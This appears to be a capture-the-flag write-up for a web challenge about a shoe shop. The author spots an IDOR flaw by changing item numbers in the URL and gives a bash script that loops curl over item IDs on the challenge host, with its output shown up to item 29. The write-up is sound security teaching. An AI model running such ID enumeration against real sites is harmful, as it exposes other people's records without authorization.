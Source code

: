 > I'm a huge sneakerhead but I'm not so good at programming. My friend tells me he can buy my new pre-release shoe, the All-Star Flags. Can you try and buy them so I can figure out how he's doing it?

![Image](https://i.imgur.com/36PgV4V.png)

I went through the site first (I didn't bother to check the python source code) and I discovered I could get the products by changing the item number..

![Imgur](https://i.imgur.com/ecQfcFj.png)

This is an IDOR (Insecure Direct Object Reference) vulnerability.

Next, I wrote a bash script to go through each of the items and find in page which one has "All-Star Flags" 

```bash
#!/bin/bash

main_url="https://ctftogo-soppazshoes.chals.io/items/"
shoe="All-Star Flags"

for number in {1..100}; do 
    url="${main_url}${number}"
    response=$(curl -s "$url") 

    if echo "$response" | grep -q "$shoe"; then
        echo "Found '$shoe' in $url"
    else
        echo "'$shoe' not found in $url"
    fi
done

```
Result
```
┌──(gr33pp㉿machine)-[~/ecowas-ctf]
└─$ bash soppazshoes.sh 
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/1
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/2
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/3
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/4
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/5
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/6
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/7
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/8
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/9
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/10
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/11
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/12
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/13
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/14
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/15
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/16
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/17
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/18
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/19
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/20
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/21
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/22
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/23
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/24
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/25
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/26
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/27
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/28
'All-Star Flags' not found in https://ctftogo-soppazshoes.chals.io/items/29
```